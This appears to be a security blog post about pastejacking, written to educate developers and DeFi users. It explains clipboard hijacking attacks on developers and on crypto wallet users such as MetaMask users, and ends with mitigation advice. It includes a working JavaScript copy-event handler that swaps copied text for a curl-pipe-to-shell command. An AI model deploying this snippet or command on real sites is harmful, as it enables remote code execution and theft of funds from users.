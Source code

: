 ```yaml
---
layout: post
title: 'Pastejacking Smart Contracts: Replacing Wallet Addresses to Steal Data'
permalink: /blog/pastejacking-smart-contracts
categories: [blog]
---
```


The last several years have brought incredible gains in the number of cyberattacks waged. These attacks entail a variety of exploits, with some using methods as simple as social engineering. Human behavior is often the weakest link, and a particular javascript exploit takes advantage of trust in a computer’s copy-and-paste functionality.  This form of attack, commonly referred to as [pastejacking](https://www.geeksforgeeks.org/what-is-pastejacking/), can fit into many different cyberattack campaigns. This attack takes advantage of one of the most common user interactions with a computer.

Pastejacking attacks exploit temporary storage memory by replacing copied data stored in device memory with different, often malicious, data. This exploit may take the form of a client-side or a server-side attack. 

Server-side pastejacking attacks may fit within a software supply chain attack: attackers can manipulate a compromised entity to attack downstream users or clients. 
Using methods such as [cross-site scripting (XSS) attacks](https://owasp.org/www-community/attacks/DOM_Based_XSS), an attacker can wage client-side pastejacking attacks, which can be especially effective if targeting developers. Cyberattacks waged on developers often have a high return on investment because capturing developer credentials affords an attacker a significant amount of lateral movement throughout an organization.

## How Javascript Pastejacking Works

For demonstration purposes, let’s take a look at the following Javascript code snippet:
```
<script>
document.getElementById('copied-text').addEventListener('copy', 
function(e) {
    e.clipboardData.setData('text/plain', 
        'curl https://forkbomb.io/shadowrealm | sh\n'
    );
    e.preventDefault();
});
</script>
```

Attackers may execute this code through various means; this attack may be waged on an organization through a form of code tampering or used on individual users through a client-side injection attack.

## Using Pastejacking to Attack Developers

Let’s say a junior programmer is attempting to utilize a code snippet from StackOverflow, which is not an unusual scenario that most software engineers have done at some point in their career. A malicious entity wages an attack against users trying to copy and paste a code snippet from the web browser into their terminal. 

The javascript function as defined above replaces the copied text within the clipboard, thus overriding the in-memory data and replacing it with:  
```
curl https://forkbomb.io/shadowrealm | sh\n
``` 
This string is a curl command that navigates a user to the URL [https://forkbomb.io/shadowrealm](https://forkbomb.io/shadowrealm/), which in this case is a striking yet graceful warning to users. 

Because the pasted snippet includes the string sh\n, the command runs immediately as if the user had manually pressed the return key, thus preventing a user from realizing what is happening until the attack is underway. 

This form of attack can be hazardous as this can be a form of [targeting developers](https://cycode.com/blog/why-developers-are-hackers-new-targets-and-what-to-do-about-it/) who often have elevated credentials. Malicious actors may use a pastejacking attack within systems that do not adhere to principles of least privilege. Developer credentials often allow escalated privileges to accelerate developer velocity. Allowing for greater access within a development ecosystem reduces security between components, thus permitting lateral movement that can give an attacker full access to an organization’s data. This can allow attackers to perform data exfiltration or leak source code; in either case, this will be devastating for an organization’s reputation and finances. 

## Using Pastejacking to Attack Crypto Wallets

More nefarious, if subtle, applications of this technique exist. Let’s consider crypto wallet addresses. These addresses are 26-35 characters long and consist of alphanumeric values. This address is often copied and pasted from one application to another to send crypto assets from one wallet to another. This copy and paste pattern provides a window of opportunity for attackers to wage a client-side injection attack utilizing such a script as defined above. 

Metamask is a popular crypto wallet commonly used for NFT transactions and blockchain applications. This wallet provides convenience to users by existing both in-browser and as a Google Chrome extension. One of the most convenient features is the fact that users can easily copy their crypto wallet address with a single click:

![pastejacking-crypto-wallets-forkbomb-address-theft-defi](../../../../../assets/image/pastejacking-crypto-wallets-forkbomb-address-theft-defi.png){:class="img-responsive"}

You can probably see where this is going. An insecure website, or nefarious browser extension, running this javascript copy-injection could hijack a user’s transaction by replacing the presented contract address text with another one, such as the attacker’s address, thus redirecting funds to their wallet permanently.

In the case of Metamask, tools such as [LavaMoat](https://github.com/LavaMoat/LavaMoat) are used to prevent software supply chain attacks from being deployed directly on its user base. However, as long as gaps within DevSecOps exist, attackers will find a way to wage attacks on users. Other means of attack, such as cross-site scripting attacks, are still viable pathways to reach individual users. 

## Preventing Crypto Theft 
As users of defi software, we are ultimaly responsible for our own financial safety. We advice several tips to mitigate the risk of crypto theft through pastejacking:
- Always visually inspect the transaction page in MetaMask, or your preferred client before running every transaction. 
- At least double/triple check the first 4 characters of the contract to see that they match up.
- Investigate suspicious contracts, especially if there is high outflow to another contract address.
- If you do a lot of business on ethereum, use services like ENS to map a trusted domain name to your contract address

Unfortunately if you have fallen victim to smart contract fraud, there is little recourse in remediation other than to continue using the platform using the guidance laid out in this post and exhibiting extreme caution when handling any amount of money/value you intend to preserve.

## Key Learnings for Defi Developers

Just like the early stages of Web 1.0 and Web 2.0, underscoring security and trust within Web 3.0 will be the key to its widespread adoption.  The authentication and origination benefits that wallets such as MetaMask provide are compelling, however, they must be implemented with security in mind. For decentralized service providers, steps need to be taken to prevent code tampering, avoid unsafe development prctices, and protect those using the service.

